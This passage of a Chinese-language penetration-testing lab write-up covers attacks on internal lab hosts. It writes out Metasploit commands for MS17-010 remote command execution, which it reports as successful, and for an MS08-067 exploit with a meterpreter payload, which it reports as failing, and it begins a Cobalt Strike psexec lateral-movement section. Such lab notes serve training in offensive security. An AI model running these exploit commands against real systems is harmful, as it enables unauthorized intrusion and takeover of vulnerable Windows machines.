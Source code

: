 ​![image](http://127.0.0.1:6806/assets/image-20231214102036-uxr6v4n.png)​

```text
sessions
```

​![image](http://127.0.0.1:6806/assets/image-20231214102054-rjm8ygi.png)​

​![image](http://127.0.0.1:6806/assets/image-20231214102810-gm0o3wz.png)​

连不上

### 攻击其他主机

```text
use auxiliary/admin/smb/ms17_010_command 
set COMMAND net user
set RHOST 192.168.52.138
exploit
```

​![image](http://127.0.0.1:6806/assets/image-20231214102951-ar8e6yy.png)​

攻击成功

## MS08_067漏洞

<span style="font-weight: bold;" data-type="strong">MS08-067漏洞全称是“Windows Server服务RPC请求缓冲区溢出漏洞”，攻击者利用受害者主机默认开放的SMB服务端口445，发送特殊RPC（Remote Procedure Call，远程过程调用）请求，造成栈缓冲区内存错误，从而被利用实施远程代码执行。</span>

当用户在受影响的系统上收到RPC请求时，该漏洞会允许远程执行代码，攻击者可以在未经身份验证情况下利用此漏洞运行任意代码。同时，该漏洞可以用于蠕虫攻击。它影响了某些旧版本的Windows系统，包括：

* Windows 2000
* Windows XP
* Windows Server 2003

```text
use exploit/windows/smb/ms08_067_netapi
set rhost 192.168.52.141
set payload windows/meterpreter/bind_tcp
run
```

​![image](http://127.0.0.1:6806/assets/image-20231214103359-vu23dgv.png)​

报错Exploit completed, but no session was created.

建立不了连接

# 横向移动

## 在CS上使用psexec模块进行横向移动

​![image](http://127.0.0.1:6806/assets/image-20231214105316-9vicqag.png)​

​![image](http://127.0.0.1:6806/assets/image-20231214105343-fnld8yq.png)​
